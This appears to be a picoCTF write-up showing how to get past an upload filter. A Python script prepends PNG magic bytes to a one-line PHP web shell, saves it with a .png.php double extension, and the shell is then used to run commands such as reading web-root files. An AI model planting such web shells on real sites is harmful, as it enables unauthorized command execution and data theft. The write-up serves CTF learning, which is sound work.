





Very good challenge, where we'll exploit the `File Upload` + `RCE` (Remote Code Execution) vulnerability.

---

Let's assume that the backend of the site is on `php`, so we will insert `.php` code with a header and magic bytes `.png`.


I crafted the payload using a Python script, that writes raw bytes of [PNG signature](https://en.wikipedia.org/wiki/List_of_file_signatures) to a newly created file + php-payload for remote shell itself:

`create_payload.py`:

```python
png_header = b'\x89\x50\x4E\x47\x0D\x0A\x1A\x0A'
php_code = b"<?php system($_GET['cmd']); ?>"

with open('readme.png.php', 'wb') as f:
    f.write(png_header + php_code)
```

Contents of the newly created file:

```php
└─$ cat readme.png.php 
'PNG
▒
<?php system($_GET['cmd']); ?> 
```

Why double extension `readme.png.php`?:

When a file is uploaded to a web application, the app checks for the presence of two components:

* PNG Magic bytes: `\x89\x50\x4E\x47\x0D\x0A\x1A\x0A` 
* `.png` extension

For example if we load only `.php`:


if without `.png` signature:





That is, `.png` is needed to pass validation, and `.php` defines the actual file extension so that the site's backend **could execute it**.





Once the file has been successfully downloaded, we need to access it from the URL.  
If you look at this site's `robots.txt`, there is `/uploads` directory. Our file could have been stored there:  





To interact with the reverse shell, we need to pass `cmd` as a parameter in the URL: `...?cmd=&lt;commands to execute>`


 
shell established, so let's display the contents of the entire previous directory:


```url
<URL>?cmd=cat ../*
```


or


```url
<URL>?cmd=pwd
<URL>?cmd=cat /var/www/html/*
```





`picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_03d1d548}`
